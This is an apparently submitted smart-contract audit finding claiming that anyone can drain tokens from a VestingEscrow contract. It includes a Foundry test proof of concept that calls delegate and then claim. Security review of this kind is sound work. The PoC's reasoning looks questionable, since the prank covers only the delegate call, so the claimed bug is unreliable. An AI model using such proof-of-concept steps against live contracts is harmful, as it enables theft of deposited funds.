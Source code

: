 Rough Rusty Donkey

high

# Unauthorized Token Claim in VestingEscrow.sol

## Summary

In VestingEscrow.sol anyone can claim and not just the recepient who was designed to do so.

## Vulnerability Detail

Although the claim(address beneficiary, uint256 amount) function in VestingEscrow.sol is protected by the onlyRecipient modifier, it can still be bypassed within the VestingEscrow contract context. This vulnerability allows any user to withdraw the entire amount deposited during the contract's creation.

The POC bellow showcase exactly how a normal user can claim all the tokens, you can add this function in VestingEscrow.t.sol .
```solidity
    function testAnyoneCanClaimAndNotJustRecepient() public {
        vm.warp(endTime); // Sets block.timestamp to endTime
        
        vm.prank(USER); // Here you can see that we are conected as USER and not  recipient
       
        deployedVesting.delegate(ozVotingAdaptor.encodeDelegateCallData(USER)); //we call delegate from user account

        console.log("Balance of user before the claim",token.balanceOf(USER));   // this will be 0 before claim

        deployedVesting.claim(USER, type(uint256).max); //we call claim with max value and the user address as beneficiary 

        console.log("Balance of user after the claim",token.balanceOf(USER));  // this will be 1 ETH since at setUp() we specified the amount to be 1 ETH

    }
    
```
To clarify, we ensured that we reach the endTime to be eligible for token claiming. Just before initiating the claim process, we execute the delegate function with the USER address.

## Impact

The vulnerability allows anyone to claim and collect funds from the contract that were originally deposited during its creation.


## Code Snippet

https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrow.sol#L136-L144

## Tool used

Manual Review

## Recommendation

I highly recommend the project to replace the usage of onlyRecipient as a safeguard with onlyOwner which represent owner of that contract.
